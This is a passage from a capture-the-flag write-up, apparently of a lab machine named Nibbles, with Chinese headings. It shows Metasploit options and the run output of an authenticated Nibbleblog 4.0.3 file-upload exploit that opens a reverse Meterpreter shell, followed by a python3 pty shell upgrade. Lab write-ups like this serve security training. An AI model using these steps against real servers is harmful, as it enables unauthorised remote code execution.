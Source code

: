     Provided by:
      Unknown
      Roberto Soares Espreto <robertoespreto@gmail.com>
    
    Available targets:
      Id  Name
      --  ----
      0   Nibbleblog 4.0.3
    
    Basic options:
      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   nibbles          yes       The password to authenticate with
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOST      10.10.10.75      yes       The target address
      RPORT      80               yes       The target port (TCP)
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /nibbleblog/     yes       The base path to the web application
      USERNAME   admin            yes       The username to authenticate with
      VHOST                       no        HTTP server virtual host
    
    Payload information:
    
    Description:
      Nibbleblog contains a flaw that allows an authenticated remote
      attacker to execute arbitrary PHP code. This module was tested on
      version 4.0.3.
    
    References:
      http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html
    
    msf exploit(multi/http/nibbleblog_file_upload) > run
    [*] Started reverse TCP handler on 10.10.14.157:4444
    [*] Sending stage (37543 bytes) to 10.10.10.75
    [*] Meterpreter session 2 opened (10.10.14.157:4444 -> 10.10.10.75:56052) at 2018-03-08 20:51:40 -0500
    [+] Deleted image.php
    meterpreter > shell
    Process 3816 created.
    Channel 0 created.
    id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    

### 用户.txt

从那里，我们将升级我们的 shell，然后获取用户.txt：

    python -c 'import pty;pty.spawn("/bin/bash")'
    /bin/sh: 1: python: not found
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
    nibbler@Nibbles:/home$ ls
    nibbler
    